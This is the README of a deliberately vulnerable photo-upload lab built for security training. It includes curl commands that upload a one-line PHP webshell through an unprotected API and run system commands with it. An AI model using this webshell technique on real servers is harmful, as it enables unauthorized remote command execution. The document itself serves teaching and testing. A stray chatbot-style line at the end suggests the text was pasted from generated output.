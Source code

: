 # PhotoShare - Vulnerable File Upload Lab

A deliberately vulnerable file upload application for security education.

<img width="432" height="391" alt="photoshare" src="https://github.com/user-attachments/assets/6b70fc85-8ffd-4470-92f8-5a7b613e20bb" />

## WARNING
This application is intentionally vulnerable. Never use in production.

## Quick Start
```bash
git clone https://github.com/pondoksiber/Photo_Share_Labs/photoshare-vulnerable-lab.git
cd photoshare-vulnerable-lab
chmod +x
./autodeploy.sh
```

## Vulnerabilities
Unrestricted file upload via API
PHP webshell execution
Weak authentication
Path traversal

## Basic Upload Test:
bash
curl -i 'http://<YOUR_VPS_IP>:3000/api/users/one/admin/photo' \
  -X PUT \
  -H 'authorization: AUTH_TOKEN' \
  -F "admin=@test.exe;filename=test.exe"

## Webshell Upload:
bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
curl -F "admin=@shell.php;filename=shell.php" \
  -H "authorization: AUTH_TOKEN" \
  -X PUT http://<YOUR_VPS_IP>:3000/api/users/one/admin/photo
curl 'http://<YOUR_VPS_IP>/uploads/shell.php?cmd=whoami'

## Endpoints
/ - Main upload (secure)
/uploads - File gallery
/manual - Documentation
/manual/deep - Testing guide
PUT /api/users/one/admin/photo - Vulnerable API

Educational Use Only
Use responsibly in controlled environments.

**Just copy the text above and paste it into your README.md file on GitHub!** 

This avoids the application error while giving you all the essential information. You can always expand it later directly on GitHub. 🚀


